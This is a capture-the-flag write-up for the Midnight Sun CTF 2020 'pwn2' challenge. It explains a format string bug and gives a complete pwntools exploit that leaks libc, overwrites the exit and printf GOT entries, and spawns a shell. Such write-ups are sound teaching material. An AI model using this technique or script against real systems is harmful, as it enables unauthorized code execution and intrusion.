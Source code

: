 ```yaml
---
layout: post
title: Midnight Sun CTF 2020 Quals - pwn2
---
```


> An homage to pwny.racing, we present... speedrun pwn challenges. These bite-sized challenges should serve as a nice warm-up for your pwning skills.
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
pwn2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-,
for GNU/Linux 3.2.0, BuildID[sha1]=5f206b596336ac6063433395e3fa740a86b57d30, stripped

Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
{% endhighlight %}

Challenge was about exploiting format string vulnerabilty. Data is read from stdin into buffer and then directly passed to `printf` function.

![code decompiled][decompiled]

With first payload we want to leak libc address and jump back to main to send another payload that will spawn `/bin/sh`.

{% highlight python %}
main = 0x080485EB

# 0804b020 R_386_JUMP_SLOT   exit@GLIBC_2.0
# 0804b00c R_386_JUMP_SLOT   printf@GLIBC_2.0

# overwrite exit with main address and leak libc address
payload = (
    p32(exe.got["exit"]) +
    b"%34279x" +
    b"%7$hn" +
    b"MARK%xMARK"
)
io.sendline(payload)

data = io.recvuntil("input: ")
leak = int(re.search(b"MARK([0-9a-f]+)MARK", data).group(1), 16)

libc.address = leak - 0x1d85c0
log.info("Leak: 0x%x", leak)
log.info("Libc: 0x%x", libc.address)
log.info("System: 0x%x", libc.sym.system)
{% endhighlight %}

Once the libc address is known we want to overwrite `printf` with address of `system`.

{% highlight python %}
num1 = ((libc.sym.system >> 16) & 0xff) - 0x8
num2 = (libc.sym.system & 0xffff) - num1 + 12280

# overwrite printf with system
payload = (
    p32(exe.got["printf"]) +
     p32(exe.got["printf"] + 2) +
     b"%" + bytes(str(num1), "utf-8") + b"x" +
     b"%8$hhn" +
     b"%" + bytes(str(num2), "utf-8") + b"x" +
     b"%7$hn"
)
io.sendline(payload)

io.sendline("/bin/sh")
io.interactive()

{% endhighlight %}

Sending `"/bin/sh"` will execute `system("/bin/sh")`.

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *
import re

exe = context.binary = ELF('./pwn2')
libc = ELF('./libc.so.6')

host = args.HOST or 'pwn2-01.play.midnightsunctf.se'
port = int(args.PORT or 10002)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
break *0x08048695
continue
'''.format(**locals())

io = start(env={"LD_PRELOAD": "./libc.so.6"})
io.recvuntil("input: ")

main = 0x080485EB

# 0804b020 R_386_JUMP_SLOT   exit@GLIBC_2.0
# 0804b00c R_386_JUMP_SLOT   printf@GLIBC_2.0

# overwrite exit with main address and leak libc address
payload = (
    p32(exe.got["exit"]) +
    b"%34279x" +
    b"%7$hn" +
    b"MARK%xMARK"
)
io.sendline(payload)

data = io.recvuntil("input: ")
leak = int(re.search(b"MARK([0-9a-f]+)MARK", data).group(1), 16)

libc.address = leak - 0x1d85c0
log.info("Leak: 0x%x", leak)
log.info("Libc: 0x%x", libc.address)
log.info("System: 0x%x", libc.sym.system)

num1 = ((libc.sym.system >> 16) & 0xff) - 0x8
num2 = (libc.sym.system & 0xffff) - num1 + 12280

# overwrite printf with system
payload = (
    p32(exe.got["printf"]) +
     p32(exe.got["printf"] + 2) +
     b"%" + bytes(str(num1), "utf-8") + b"x" +
     b"%8$hhn" +
     b"%" + bytes(str(num2), "utf-8") + b"x" +
     b"%7$hn"
)
io.sendline(payload)

io.sendline("/bin/sh")

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/midnightsun/pwn2
[decompiled]: {{site.baseurl}}/ctf/2020-04-13-midnightsunctf-pwn2/decompiled.png

